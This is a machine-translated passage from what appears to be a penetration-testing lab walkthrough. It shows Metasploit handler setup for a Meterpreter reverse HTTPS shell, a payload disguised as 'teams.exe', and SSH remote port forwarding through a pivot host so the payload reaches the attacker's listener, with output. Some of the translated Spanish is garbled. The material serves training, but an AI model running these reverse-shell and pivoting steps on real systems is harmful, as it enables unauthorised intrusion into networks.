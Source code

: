   Explotación y escalada de privilegios

```shell-session
[msf](Jobs:0 Agents:0) exploit(windows/smb/smb_delivery) >> use multi/handler
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost 0.0.0.0
lhost => 0.0.0.0
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lport 7000
lport => 7000
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started HTTPS reverse handler on https://0.0.0.0:7000
```

A continuación, necesitamos cargar el`teams.exe`carga útil de shell inversa al`DEV01`Host objetivo. Podemos scplo`dmz01`, inicie un servidor web de Python en ese host y luego descargue el archivo. Alternativamente, podemos usar el administrador de archivos DNN para cargar el archivo como lo hicimos anteriormente. Con la carga útil en el objetivo, necesitamos configurar`SSH remote port forwarding`Para reenviar el puerto de caja de pivote DMZ01`443`al puerto del oyente de Metasploit`7000`. El`R`Flag le dice al host de pivote que escuche en el puerto`443`y reenviar todo el tráfico entrante a este puerto a nuestro oyente de MetaSploit en`0.0.0.0:7000`configurado en nuestro host de ataque.

  Explotación y escalada de privilegios

```shell-session
xnoxos@htb[/htb]$ ssh -i dmz01_key -R 172.16.8.120:443:0.0.0.0:7000 root@10.129.203.111 -vN

OpenSSH_8.4p1 Debian-5, OpenSSL 1.1.1n  15 Mar 2022
debug1: Reading configuration data /etc/ssh/ssh_config
debug1: /etc/ssh/ssh_config line 19: include /etc/ssh/ssh_config.d/*.conf matched no files
debug1: /etc/ssh/ssh_config line 21: Applying options for *
debug1: Connecting to 10.129.203.111 [10.129.203.111] port 22.

<SNIP>

debug1: Authentication succeeded (publickey).
Authenticated to 10.129.203.111 ([10.129.203.111]:22).
debug1: Remote connections from 172.16.8.120:443 forwarded to local address 0.0.0.0:7000
debug1: Requesting no-more-sessions@openssh.com
debug1: Entering interactive session.
debug1: pledge: network
debug1: client_input_global_request: rtype hostkeys-00@openssh.com want_reply 0
debug1: Remote: /root/.ssh/authorized_keys:1: key options: agent-forwarding port-forwarding pty user-rc x11-forwarding
debug1: Remote: /root/.ssh/authorized_keys:1: key options: agent-forwarding port-forwarding pty user-rc x11-forwarding
debug1: Remote: Forwarding listen address "172.16.8.120" overridden by server GatewayPorts
debug1: remote forward success for: listen 172.16.8.120:443, connect 0.0.0.0:7000
```

A continuación, ejecute la carga útil de los equipos.`DEV01`Host, y si todo va según lo planeado, recuperaremos una conexión.
